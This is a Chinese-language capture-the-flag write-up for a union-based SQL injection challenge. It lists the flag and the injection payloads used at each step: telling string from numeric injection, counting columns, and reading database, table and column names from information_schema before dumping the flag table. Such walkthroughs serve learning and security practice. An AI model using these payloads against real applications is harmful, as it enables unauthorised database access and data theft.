

## flag
`n1book{union_select_is_so_cool}`

## 思路
1. 首先判断是字符注入还是数字注入，`-- -`和`#`可以将后面的语句注释掉，此处`#`无效  
`id=1 and 1=2 -- -`与`id=1`界面相同，证明不是数字注入  
`id=1' and 1=2-- -`与`id=1`界面不同，证明是字符注入
2. 接着判断有数据表有3个字段（column）  
`id=1' union select 1,2,3 -- -`与`id=1`界面相同  
`id=1' union select 1,2,3,4 -- -`与`id=1`界面不同  
也可用`id=1' order by 3 -- -`与`id=1' order by 4 -- -`的差异判断有三列数据
3. 获取数据库名**note**  
`id=-1' union select 1,database(),3 -- -`
4. 获取数据表名**fl4g**、**notes**  
`id=-1' union select 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='note' -- -`
5. 获取字段名**fllllag**  
`id=-1' union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='fl4g' -- -`
6. 获取**flag**  
`id=-1' union select 1,group_concat(fllllag),3 FROM fl4g -- -`

## 总结
- union select左右两边必须拥有相同数量的列
- 在思路1-6中，1-2为`id=1`,3-6为`id=-1`的原因是1-2只需要判断，不需要展示值；3-6需要将union select获得的值展示出来。
- **如果id=1，union select获得的值将无法展示出来**
- 以思路3为例
    - 当id=1时
    
    - 当id=-1时，展示出数据库名note
    
